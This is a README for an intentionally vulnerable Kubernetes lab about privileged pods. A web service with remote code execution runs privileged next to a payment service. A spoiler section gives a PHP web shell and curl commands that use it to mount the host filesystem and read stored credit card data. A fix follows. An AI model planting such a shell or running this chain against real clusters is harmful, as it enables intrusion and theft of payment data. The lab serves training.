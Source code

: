 # Privileged Pod

## Context
Privileged pod (AKA `privileged`) is one of the Security Context flags for a Pod or Container.
Privileged containers can do nearly everything a process on the host can do, and provide no isolation from other workloads. This kind of a setting should be avoided where possible.

## Env components
### Web
Vulnerable application with RCE and privileged access.

* Deployment - `k8s/PrivilegedPod/web/deployment.yaml`

    This `k8s` deployment contains the unsecured instruction `privileged: true`
* Service - `k8s/PrivilegedPod/web/service.yaml`

### Payment
Payments processing microservice. Completely protected ;).

* Deployment - `k8s/PrivilegedPod/payment/deployment.yaml`
* Service - `k8s/PrivilegedPod/payment/service.yaml`

## Exploit

<details>
    <summary>Spoiler alert</summary>
    
    Your target is to steal users credit cards. Cards data is located in `payment` microservice (which has no security issues). But `web` microservice has an RCE vulnerability (and has `privileged`). This allows us to access any data in the cluster, including cards data.
    
    1. Upload file `shell.php`:
        ```php
        <?php
        echo '<pre>';
        var_dump(system($_GET['cmd']));
        echo '</pre>';
        ```
    2. Create temporary directory for host file system `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mkdir%20/tmp/host`
    3. Mount host's file system (`sda1` in my case but could vary) `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=mount%20/dev/sda1%20/tmp/host`
    4. Find file `cards.json` in hosts filesystem `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=find%20/tmp/host%20-name%20"cards.json"`
    5. Get stored cards `curl http://192.168.99.100/upload/fe84f884761716f9e641479e992c4c6f.php?cmd=cat%20<👆>`
</details>

## Fix

To fix the problem you need to remove `privileged` flag from [web/deployment.yaml](web/deployment.yaml#L27-L28). It will not help to protect `web` microservice but prevent steeling of credit cards from `payment` microservice.
